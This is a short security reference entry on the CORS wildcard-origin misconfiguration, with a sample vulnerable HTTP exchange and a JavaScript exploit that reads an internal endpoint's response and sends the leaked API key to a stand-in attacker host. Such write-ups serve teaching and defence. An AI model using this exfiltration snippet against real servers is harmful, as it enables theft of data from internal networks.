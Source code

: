 # Wildcard Origin

## Description 
Host allows requests to be made from any origin. 

**Severity**: Low

## Exploit
If the server responds with a wildcard origin `*`, the browser does never send the cookies.  
However, if the server does not require authentication, it's still possible to access the data on the server.  
This can happen on internal servers that are not accessible from the Internet.  
The attacker's website can then pivot into the internal network and access the server's data without authentication. 

### Example
**Vulnerable Implementation**

```http
GET /endpoint HTTP/1.1
Host: api.internal.example.com
Origin: https://evil.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: *

{"[private API key]"}
```

**Exploit**  
```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.internal.example.com/endpoint',true); 
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

[code source](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration#vulnerable-example-wildcard-origin--without-credentials)
